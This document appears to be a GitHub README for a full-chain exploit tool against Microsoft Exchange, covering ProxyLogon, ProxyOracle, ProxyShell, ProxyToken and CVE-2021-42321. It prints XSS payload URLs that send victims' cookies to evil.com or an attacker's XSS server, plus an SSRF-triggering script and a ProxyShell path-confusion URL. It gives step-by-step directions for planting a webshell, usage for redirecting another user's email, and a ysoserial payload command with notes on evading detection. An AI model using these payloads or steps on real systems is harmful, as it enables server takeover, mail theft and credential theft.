# Proxy-Attackchain

proxylogon, proxyshell, proxyoracle, proxytoken, CVE-2021-42321 Deserialization RCE full chain exploit tool

1. ProxyLogon: The most well-known and impactful Exchange exploit chain
2. ProxyOracle: The attack which could recover any password in plaintext format of Exchange users
3. ProxyShell: The exploit chain demonstrated at [Pwn2Own 2021](https://twitter.com/thezdi/status/1379467992862449664) to take over Exchange and earn $200,000 bounty

ProxyLogon is Just the Tip of the Iceberg: A New Attack Surface on Microsoft Exchange Server! [Slides](https://i.blackhat.com/USA21/Wednesday-Handouts/us-21-ProxyLogon-Is-Just-The-Tip-Of-The-Iceberg-A-New-Attack-Surface-On-Microsoft-Exchange-Server.pdf) [Video](https://www.youtube.com/watch?v=5mqid-7zp8k)

## most of the exploit is recoded with golang to practice my golang skills purpose :)

 - 

| NAME | CVE | patch time | description | avaliable |
| ----------- | ----------- | ----------- | ----------- | ----------- |
| ProxyLogon | [CVE-2021-26855](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26855) | Mar 02, 2021 | server-side request forgery (SSRF) | yes |
| ProxyLogon | [CVE-2021-27065](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-27065) | Mar 02, 2021 | Microsoft.Exchange.Management.DDIService.WriteFileActivity未校验写文件后缀，可由文件内容部分可控的相关功能写入WebShell | yes |
| ProxyOracle | [CVE-2021-31196](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31196) | Jul 13, 2021 | Reflected Cross-Site Scripting | yes |
| ProxyOracle | [CVE-2021-31195](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31195) | May 11, 2021 | Padding Oracle Attack on Exchange Cookies Parsing | yes |
| ProxyShell | [CVE-2021-34473](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34473) | Apr 13, 2021 | Pre-auth Path Confusion leads to ACL Bypass | yes |
| ProxyShell | [CVE-2021-34523](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34523) | Apr 13, 2021 | Elevation of Privilege on Exchange PowerShell Backend | yes |
| ProxyShell | [CVE-2021-31207](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31207) | May 11, 2021 | Post-auth Arbitrary-File-Write leads to RCE | yes |
| proxytoken | [CVE-2021-33766](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-33766) | July 13, 2021 | With this vulnerability, an unauthenticated attacker can perform configuration actions on mailboxes belonging to arbitrary users. As an illustration of the impact, this can be used to copy all emails addressed to a target and account and forward them to an account controlled by the attacker. | yes |
| Microsoft Exchange Server 远程执行代码漏洞 | [CVE-2021-42321](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42321) | Nov 17, 2021 | Exchange Deserialization RCE | yes |
| ProxyRelay |  |  |  | yes |


# proxylogon

## proxylogon part links

 - [Proxylogon](https://proxylogon.com/)
 - [A New Attack Surface on MS Exchange Part 1 - ProxyLogon!](https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html)
 - [ProxyLogon漏洞分析](https://hosch3n.github.io/2021/08/22/ProxyLogon%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
 - [复现Microsoft Exchange Proxylogon漏洞利用链](https://xz.aliyun.com/t/9305)

 - 
 - 
 - 

# proxyoracle
## proxyoracle part links

 - [A New Attack Surface on MS Exchange Part 2 - ProxyOracle!](https://blog.orange.tw/2021/08/proxyoracle-a-new-attack-surface-on-ms-exchange-part-2.html)
 - [ProxyOracle漏洞分析](https://hosch3n.github.io/2021/08/23/ProxyOracle%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

Once a victim clicks this link, evil.com will receive the cookies.

``` bash
https://ews.lab/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.cookie=`X-AnonResource-Backend=@evil.com:443/path/any.php%23~1941962753`;document.cookie=`X-AnonResource=true`;fetch(`/owa/auth/any.skin`,{credentials:`include`});//
```

or use 3gstudent's way:

## step1: XSS平台搭建

借助SSRF漏洞，控制Exchange服务器将Cookie信息发送至XSS平台，导致最终想要的Cookie信息位于Request Headers中

而现有的XSS平台大都是通过POST请求的参数来传递数据

为了解决这个问题，这里可以选择开源的XSS平台，地址如下：

https://github.com/3gstudent/pyXSSPlatform

只需要修改以下位置：

 - 修改index.js，使用ajax模拟用户发包触发SSRF漏洞

 - 修改 pyXSSPlatform.py ，将GET请求的Request Headers进行提取

 - 使用合法的证书

index.js代码示例：

``` bash
var xmlHttp = new XMLHttpRequest();
xmlhttp.open("GET", "https://192.168.1.1/owa/auth/x.js", false);
document.cookie = "X-AnonResource=true";
document.cookie = "X-AnonResource-Backend=OurXssServer.com/#~1";
xmlhttp.send();
```

## step2: XSS利用代码

控制用户访问XSS平台的代码示例：

``` bash
https://192.168.1.1/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.head.appendChild(document.createElement(/script/.source)).src=/https:\/\/OurXssServer.com\/index.js/.source//
```

## step3: example cookie for decryption test:

``` bash
cadata=FVtSAAWdOn29HYDQry+kG+994VUdAxONrayi4nbJW9JWTh8yLueD6IxYpahfxcGsA/B3FoVUQOD2EG605SR4QdeQ1pof+KD//6jwpmYQjv/II+OcqChrFZFvcMWv46a5; cadataTTL=eTxCEHKHDMmd/gEqDuOafg==; cadataKey=T4juhN4dUMKY4wkajUD43n4EWfMwefPQlqzxXmK4GnSHIZqo+g+uQg1Y2ogGoD1HyoVpRYgjGcCu6rmNQK+LsaZ8/lfBCThBI5yAhP1W2Fx+YNKvzy8Bcpui7zTlhAY598lE5Aijs6crHVXJeZkbLfMJgp0cFHj5uTQPcg31O/AeOAnD5c27IYOQ7JqMW7GOUVor1lhYnhh0R/NtWWqyfr5oE9j0jbxIGgrQrXIpLxL/uAU1ddC+/5jG9Edpq4sC213amuU/94rkHYzNH9OsiHYIkXr/NmkB7p908XrFrwXAcvV9QieoRiS3jvKCbzk3mnMu3YTnsJwAuiHzSXdCOQ==; cadataIV=GB9B+rwrigyPOf8xnV1KAek++yovEot9jFcV68WepCTQoRtQ5HUxSC7tE1mmHg0YtE6EOZNUM/WiNGP6xI4UTAofcMOfTLeRpBzeaKOETfjxKK2W7IKn+9k2tRkc1pIlO8FTOVx/dOHOoIFHUkqxFr+TgBULJ1I7tUmO7W0XDX4ZJHfmQhVqOOzeyjImKdX7Uv/jIJrF4VEew7rgvrC8BhqOqWgaTxpGhDTzIXl+wW3crsgZmXpXhOPURej1iwmtvhuQU6iuq4/IRv0lVIW3WvP6gUI8owIUxppnJl7YmN27Aqkjs0nTZZz1LBuZN+YxY4x6Lvs2FMG68jllhE4kwg==; cadataSig=BOJSYN2B+3RsXjO2akh3mqlKKkeAZVamOzfpVo0QdPEA3BHjpR6ls5yD9TzAQzRuWJJaaRIm7wMEiBMFz/sK5jk3R6kWw1OmMtJN2c38PdvwGIe6/7ByJdl52a5ojhDrRZhc4Qc3y+FFRx6XKvqUljTRWtHJGI1Jad2+LiNhJGkalhUeTM/a2V4LiQWf6Vv1KzJO79rZuOOOBnatht/E29j6636FpllCfEKrrogPQ7ADdVS6OOmqNU9gRMVgKnomC2t2PCtuYj26HUjnZ3rfc6BdzVmtu9EYSzccObsB2jxXXclAm5a+NZU/6sj9tlq3gcurjBl9yUDTgbZLg383gw==
```

 - amd64 poc binary usage:
 - just a modyfied version of [padre](https://github.com/glebarez/padre), added proxyoracle detect poc code...
 - 

 - python script exp usage:

Decrypt this cookie to plaintext:

 - 

# proxyshell
## proxyshell part links

 - [My Steps of Reproducing ProxyShell](https://y4y.space/2021/08/12/my-steps-of-reproducing-proxyshell/)
 - [ProxyShell漏洞分析](https://hosch3n.github.io/2021/08/24/ProxyShell%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
 - [FROM PWN2OWN 2021: A NEW ATTACK SURFACE ON MICROSOFT EXCHANGE - PROXYSHELL!](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)
 - [Reproducing The ProxyShell Pwn2Own Exploit](https://peterjson.medium.com/reproducing-the-proxyshell-pwn2own-exploit-49743a4ea9a1)
 - [ProxyShell](https://github.com/ktecv2000/ProxyShell)
 - [A basic proxyshell scanner](https://github.com/dinosn/proxyshell)
 - [Generate proxyshell payload by Py Permutative Encoding](https://github.com/Ridter/proxyshell_payload)
 - [CVE-2021-34473-Exchange-ProxyShell](https://github.com/je6k/CVE-2021-34473-Exchange-ProxyShell)
 - [Exchange ProxyShell 远程代码执行漏洞复现](https://www.buaq.net/go-83692.html)
 - [exchange-proxyshell漏洞复现及分析](https://blog.riskivy.com/exchange-proxyshell%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E5%8F%8A%E5%88%86%E6%9E%90/)
 - [Proof of Concept Exploit for Microsoft Exchange CVE-2021-34473, CVE-2021-34523, CVE-2021-31207](https://github.com/horizon3ai/proxyshell)

 - CVE-2021-34473 - Pre-auth Path Confusion

This faulty URL normalization lets us access an arbitrary backend URL while running as the Exchange Server machine account. Although this bug is not as powerful as the SSRF in ProxyLogon, and we could manipulate only the path part of the URL, it’s still powerful enough for us to conduct further attacks with arbitrary backend access.

``` bash
https://xxx.xxx.xxx.xxx/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

 - CVE-2021-34523 - Exchange PowerShell Backend Elevation-of-Privilege
 - CVE-2021-31207 - Post-auth Arbitrary-File-Write

## let's getting started...

generate proxyshell specified webshell payload.

 - proxyshell_payload_gen.py

just put the webshell content you want to "webshell", then it will be fine...

 - 

then put the encoded webshell to <t:Content>...</t:Content> in chkproxyshell.go

confirm proxyshell and get the sid value to generate token.

 - 

use the following py script to gen token value

 - 

confirm the token is valid

 - 

now use the token to send a email with shell attachment in, this may be saved as a draft in administrator's mailbox...

 - 

 - 

finnaly use the following wsman python script to export The draft to webshell :)

 - 

 - 

 - 

# proxytoken
## proxytoken part links

 - [PROXYTOKEN: AN AUTHENTICATION BYPASS IN MICROSOFT EXCHANGE SERVER](https://www.zerodayinitiative.com/blog/2021/8/30/proxytoken-an-authentication-bypass-in-microsoft-exchange-server)
 - [CVE-2021-33766-ProxyToken](https://github.com/demossl/CVE-2021-33766-ProxyToken)

``` bash
-te: is the email that you want to redirect to...
-ve: is the email that you want to attack and read...
```

 - 

# Exchange Authenticated RCE CVE-2021-42321
## CVE-2021-42321 part links

 - [CVE-2021-42321](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42321)
 - [Some notes about Microsoft Exchange Deserialization RCE (CVE-2021–42321)](https://peterjson.medium.com/some-notes-about-microsoft-exchange-deserialization-rce-cve-2021-42321-110d04e8852)
 - [CVE-2021-42321_poc.py](./CVE-2021-42321_poc.py)

Exchange 2016 CU 21,22 and Exchange 2019 CU 10,11. This means the only recent latest version of Exchange 2016,2019 are vulnerable to this CVE

1. Create UserConfiguration with BinaryData as our Gadget Chain
2. Request to EWS for GetClientAccessToken to trigger the Deserialization

change DisableActivitySurrogateSelectorTypeCheck to True to overcome the limitation of .NET and later inject DLL to achieve mem-shell with Jscript to bypass the detection

usage:

use [ysoserial.net](https://github.com/pwntester/ysoserial.net) generate the command execution payload...

``` bash
./ysoserial.exe -f BinaryFormatter -g ActivitySurrogateDisableTypeCheck -o base64 -c "whoami /all" -t
```

then replace USER, PASS, target, gadgetData1 fileds you want...

 - youtube channel exp prove:

